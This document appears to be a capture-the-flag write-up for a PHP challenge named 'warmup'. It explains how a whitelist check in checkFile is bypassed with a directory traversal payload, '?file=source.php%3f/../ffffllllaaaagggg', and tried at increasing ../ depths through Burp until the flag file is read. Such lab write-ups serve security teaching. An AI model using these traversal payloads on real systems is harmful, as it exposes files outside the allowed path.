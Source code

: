 
# warmup  
  
![Screenshot from 2021-07-24 22-04-46](https://user-images.githubusercontent.com/87865134/126872559-500d8562-582d-44a8-b5fe-05209425fee2.png)

- Hint: in source code  

![Screenshot from 2021-07-24 22-05-44](https://user-images.githubusercontent.com/87865134/126872594-0e5b5035-a9ec-49a0-bf30-9475a3d09946.png)

- View file ***source.php***  

![Screenshot from 2021-07-24 22-07-47](https://user-images.githubusercontent.com/87865134/126872652-d614b39e-f637-40fd-83ad-3d53efbdcbb9.png)  
![Screenshot from 2021-07-24 22-08-07](https://user-images.githubusercontent.com/87865134/126872665-c914d17e-ec34-45c6-b275-46e0f23544e8.png)

- View file ***hint.php***:  

![Screenshot from 2021-07-24 22-11-29](https://user-images.githubusercontent.com/87865134/126872747-869ffda3-9c95-4134-b7eb-2c40023743ac.png)

  - > Flag in file ***ffffllllaaaagggg***
  
- **function checkFile(&$page)**: 
  -  check if file in whitelist or not
  -  $page not change after fucntion return  
    - => can bypass function by use payload: `?file=source.php%3f/../ffffllllaaaagggg` 
 
- **Use Burp to send some requests**:
  - `?file=source.php%3f/../ffffllllaaaagggg` => not found
  - `?file=source.php%3f/../../ffffllllaaaagggg` => not found
  - `?file=source.php%3f/../../../ffffllllaaaagggg` => not found
  - `?file=source.php%3f/../../../../ffffllllaaaagggg` => found
 
![Screenshot from 2021-07-24 22-24-53](https://user-images.githubusercontent.com/87865134/126873191-d4cfb6a0-52ed-4997-a90b-e59554a3aad0.png)


### - Description: 
> **category**: directory traversal
